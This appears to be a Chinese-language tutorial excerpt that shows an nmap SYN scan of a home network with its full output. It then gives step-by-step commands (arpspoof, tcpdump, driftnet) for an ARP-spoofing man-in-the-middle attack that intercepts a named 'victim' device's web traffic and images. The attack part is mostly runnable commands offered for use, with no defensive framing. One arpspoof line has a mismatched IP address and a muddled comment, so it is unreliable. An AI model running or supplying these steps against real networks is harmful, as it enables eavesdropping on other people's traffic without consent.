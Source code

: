 > nmap -sS 192.168.0.1/24

```text
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-23 02:59 CST
Nmap scan report for 192.168.0.1
Host is up (0.11s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
1900/tcp open  upnp
MAC Address: 78:44:FD:77:53:EF (Tp-link Technologies)

Nmap scan report for 192.168.0.100
Host is up (0.0040s latency).
All 1000 scanned ports on 192.168.0.100 are filtered
MAC Address: 9C:A6:15:5C:37:D2 (Tp-link Technologies)

Nmap scan report for 192.168.0.101
Host is up (0.0039s latency).
All 1000 scanned ports on 192.168.0.101 are filtered
MAC Address: 28:2C:B2:C1:70:C1 (Tp-link Technologies)

Nmap scan report for 192.168.0.102
Host is up (0.14s latency).
Not shown: 999 filtered ports
PORT     STATE  SERVICE
6881/tcp closed bittorrent-tracker
MAC Address: 60:3A:7C:11:07:38 (Tp-link Technologies)

Nmap scan report for 192.168.0.103
Host is up (0.012s latency).
Not shown: 999 closed ports
PORT      STATE SERVICE
16080/tcp open  osxwebadmin
MAC Address: A4:50:46:6C:CE:65 (Xiaomi Communications)

Nmap scan report for 192.168.0.105
Host is up (0.22s latency).
Not shown: 999 closed ports
PORT      STATE SERVICE
62078/tcp open  iphone-sync
MAC Address: 54:99:63:33:AB:B5 (Apple)

Nmap scan report for 192.168.0.109
Host is up (0.00026s latency).
Not shown: 999 filtered ports
PORT    STATE SERVICE
135/tcp open  msrpc
MAC Address: 28:3A:4D:74:FA:41 (Cloud Network Technology (Samoa) Limited)

Nmap scan report for 192.168.0.128
Host is up (0.0000020s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (8 hosts up) scanned in 102.69 seconds
```


注意：运行 arpspoof 命令时提示：arpspoof未找到命令，其原因是你还未安装 arpspoof 工具；arpspoof 是 dsniff 的一个附属工具，所以我们需要安装的是 dsniff

打开一个控制台
> apt-get install dsniff
> arpspoof -i eth0 -t 192.168.0.103(受害者ip) 192.168.0.1(路由器ip)     告诉192.168.0.103(受害者ip)，我是路由器

我们再打开一个控制台：
> arpspoof -i eth0 -t 192.168.0.1(路由器ip) 192.168.1.101(我的ip)      告诉路由器，我的ip是(受害者)

我们再打开一个控制台：
> tcpdump tcp -nnAi eth0 port 80 and host 192.168.0.103(受害者ip)

安装图形捕获工具driftnet
> apt-get install driftnet   安装 
> driftnet -i eth0    获取0号网卡   




